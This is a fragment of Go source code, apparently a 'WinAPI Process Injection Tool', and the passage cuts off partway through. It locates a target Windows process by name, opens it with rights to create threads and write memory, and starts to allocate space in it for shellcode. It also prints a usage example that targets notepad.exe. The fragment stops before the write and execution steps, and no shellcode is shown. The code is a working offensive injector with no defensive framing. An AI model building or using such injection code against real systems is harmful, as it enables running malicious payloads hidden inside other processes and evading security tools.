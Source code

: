 ```go
		return 0, fmt.Errorf("CreateToolhelp32Snapshot failed: %w", err)
	}
	defer windows.CloseHandle(handle)

	var entry windows.ProcessEntry32
	entry.Size = uint32(unsafe.Sizeof(entry))

	err = windows.Process32First(handle, &entry)
	if err != nil {
		return 0, fmt.Errorf("Process32First failed: %w", err)
	}

	for {
		processName := windows.UTF16ToString(entry.ExeFile[:])
		if strings.EqualFold(processName, targetName) {
			fmt.Printf("[+] Found target process '%s' with PID: %d\n", targetName, entry.ProcessID)
			return entry.ProcessID, nil
		}

		err = windows.Process32Next(handle, &entry)
		if err != nil {
			if err == windows.ERROR_NO_MORE_FILES {
				break
			}
			return 0, fmt.Errorf("Process32Next failed: %w", err)
		}
	}
	return 0, fmt.Errorf("process '%s' not found", targetName)
}

func main() {
	fmt.Println("[+] WinAPI Process Injection Tool")

	if len(os.Args) < 2 {
		fmt.Printf("Usage: %s <target_process_name.exe>\n", os.Args[0])
		fmt.Println("Example: .\\injector.exe notepad.exe")
		return
	}
	targetProcessName := os.Args[1]

	targetPID, err := findProcessPID(targetProcessName)
	if err != nil {
		log.Fatalf("[-] Failed to find PID: %v", err)
	}

	// hProcess is windows.Handle, which is uintptr. win32.HANDLE is also uintptr.
	// We will cast hProcess to win32.HANDLE where needed for zzl/go-win32api calls.
	hProcess, err := windows.OpenProcess(windows.PROCESS_CREATE_THREAD|
		windows.PROCESS_QUERY_INFORMATION|
		windows.PROCESS_VM_OPERATION|
		windows.PROCESS_VM_WRITE|
		windows.PROCESS_VM_READ, false, targetPID)
	if err != nil {
		log.Fatalf("[-] OpenProcess failed: %v", err)
	}
	fmt.Printf("[+] Successfully obtained handle: 0x%X\n", hProcess)
	// Defer closing using windows.CloseHandle, as hProcess is windows.Handle
	defer windows.CloseHandle(hProcess)

	shellcodeLen := uintptr(len(shellcode))
	fmt.Printf("[*] Allocating %d bytes in target process (RW)...\n", shellcodeLen)

	// Using win32.VirtualAllocEx from zzl/go-win32api
```